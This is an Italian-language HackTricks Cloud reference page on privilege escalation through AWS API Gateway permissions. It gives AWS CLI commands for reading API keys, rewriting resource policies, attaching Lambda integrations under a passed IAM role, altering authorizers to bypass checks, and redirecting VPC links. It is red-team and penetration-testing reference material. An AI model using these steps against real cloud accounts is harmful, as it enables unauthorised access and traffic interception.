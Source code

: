 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con questo permesso puoi generare chiavi API delle API configurate (per regione).
```bash
aws --region <region> apigateway create-api-key
```
**Impatto Potenziale:** Non puoi eseguire privesc con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:GET`

Con questo permesso puoi ottenere le chiavi API generate delle API configurate (per regione).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impatto Potenziale:** Non puoi eseguire un privesc con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con questi permessi è possibile modificare la policy delle risorse di un'API per darti accesso a chiamarla e abusare del potenziale accesso che l'API gateway potrebbe avere (come invocare una lambda vulnerabile).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impatto Potenziale:** Di solito, non sarai in grado di privesc direttamente con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` può **aggiungere una nuova integrazione a un'API REST di API Gateway esistente con una funzione Lambda che ha un ruolo IAM associato**. L'attaccante può quindi **attivare la funzione Lambda per eseguire codice arbitrario e potenzialmente ottenere accesso alle risorse associate al ruolo IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso alle risorse associate al ruolo IAM della funzione Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` può **modificare un authorizer API Gateway esistente** per bypassare i controlli di sicurezza o per eseguire codice arbitrario quando vengono effettuate richieste API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Bypassare i controlli di sicurezza, accesso non autorizzato alle risorse API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con il permesso `apigateway:UpdateVpcLink` può **modificare un VPC Link esistente per puntare a un diverso Network Load Balancer, potenzialmente reindirizzando il traffico API privato verso risorse non autorizzate o malevole**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impatto Potenziale**: Accesso non autorizzato a risorse API private, intercettazione o interruzione del traffico API.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
